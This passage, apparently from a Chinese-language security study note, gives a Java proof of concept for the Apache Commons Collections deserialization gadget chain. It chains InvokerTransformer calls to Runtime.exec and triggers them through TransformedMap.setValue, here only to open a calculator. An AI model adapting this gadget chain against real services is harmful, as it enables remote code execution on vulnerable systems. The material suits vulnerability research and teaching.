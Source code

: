 POC 如下：

```java
package com.serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/9/1 10:34
 */
public class TransformerTest {
    public static void main(String[] args){
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        // 创建Map对象
        Map<Object, Object> map = new HashMap<>();
        map.put("id", "name");
        // 调用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        // 遍历Map元素，并调用setValue方法
        for(Object obj: transformedMap.entrySet()){
            Map.Entry entry = (Map.Entry) obj;
            entry.setValue("dotast");
        }
    }
}
```
